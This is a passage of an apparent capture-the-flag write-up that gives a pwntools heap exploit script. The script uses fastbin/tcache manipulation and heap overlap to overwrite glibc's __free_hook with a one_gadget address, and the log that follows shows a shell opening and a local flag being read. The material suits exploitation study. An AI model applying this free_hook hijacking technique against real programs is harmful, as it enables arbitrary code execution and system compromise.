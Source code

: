 ```Python
    add(i,0x58)
for i in range(7):
    delete(i)
delete(9)#fastbin

p.sendlineafter("choice: ",'1'*0x7000)

# 堆重叠
delete(12)

p.sendlineafter("choice: ",'1'*0x7000)

#free_hook attack
for i in range(7):
    add(i,0x78)
add(8,0x78)
for i in range(7):
    delete(i)
for i in range(7):
    add(i,0x58)
add(9,0x58)
for i in range(7):
    delete(i)
for i in range(7):
    add(i,0x20)
add(12,0x20)#hacker

for i in range(7):
    delete(i)

for i in range(7):
    add(i,0x20)

delete(10)

edit(12,p64(libc_base+libc.sym['__free_hook'])+'\n')

add(14,0x20)

add(15,0x20)

edit(15,p64(libc_base+0x4f432)+'\n')

delete(0)

p.interactive()
```

getshell成功

```shell
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x1a bytes:
    'flag{QAQ_I_am_local_flag}\n'
flag{QAQ_I_am_local_flag}
$  
```

